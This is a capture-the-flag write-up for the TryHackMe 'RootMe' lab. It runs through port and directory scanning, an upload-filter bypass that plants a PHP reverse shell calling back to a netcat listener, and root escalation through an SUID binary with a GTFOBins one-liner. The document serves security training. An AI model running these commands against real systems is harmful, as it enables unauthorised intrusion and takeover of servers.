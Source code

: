 <!-- TOC -->

- [RootMe](#rootme)
    - [Reconnaissance](#reconnaissance)
    - [Getting a shell](#getting-a-shell)
    - [Privilege escalation](#privilege-escalation)

<!-- /TOC -->

# RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

A ctf for beginners, can you root me?

| Title | IP Address |
| :---- | :---- |
| RootMe | `1*.**.***.***` |

## Reconnaissance

```bash
sudo nmap -A -vv -T4 -oA initial 1*.**.***.*** 
```

> `22/tcp open *** syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

> `80/tcp open http syn-ack ttl 61 Apache httpd 2.*.** ((Ubuntu))`

```bash
gobuster dir -u 1*.**.***.***:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 100
```

> ```
> /u******              (Status: 301) [Size: 316] [--> http://1*.**.***.***/u******/]
> /index.php            (Status: 200) [Size: 616]                                    
> /css                  (Status: 301) [Size: 312] [--> http://1*.**.***.***/css/]    
> /js                   (Status: 301) [Size: 311] [--> http://1*.**.***.***/js/]     
> /p****                (Status: 301) [Size: 314] [--> http://1*.**.***.***/p****/]  
> /server-status        (Status: 403) [Size: 278]
> ```

## Getting a shell

Using the famous __pentestmonkey's PHP reverse shell__

Copy and modify `/usr/share/webshells/php/php-reverse-shell.php`

```php
// php-reverse-shell.php5
$ip = '1*.*.**.**';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

Upload to: `http://1*.**.***.***/p****/`

```bash
nc -lvnp 80
```

Go to: `http://1*.**.***.***/u******/php-reverse-shell.php5`

RHOST:

```bash
find / -type f -name u***.*** 2>/dev/null
```

> `/var/www/u***.***`

```bash
cat /var/www/u***.***
```

> `THM{***_***_*_*****}`

## Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

> `/***/***/******`

Using [GTFOBins](https://gtfobins.github.io):

```bash
p***** -c 'import os; os.execl("/bin/sh", "sh", "-p")'
find / -type f -name r***.***
```

> `/r***/root.txt`

```bash
cat /r***/root.txt
```

> `THM{*********_**********}`
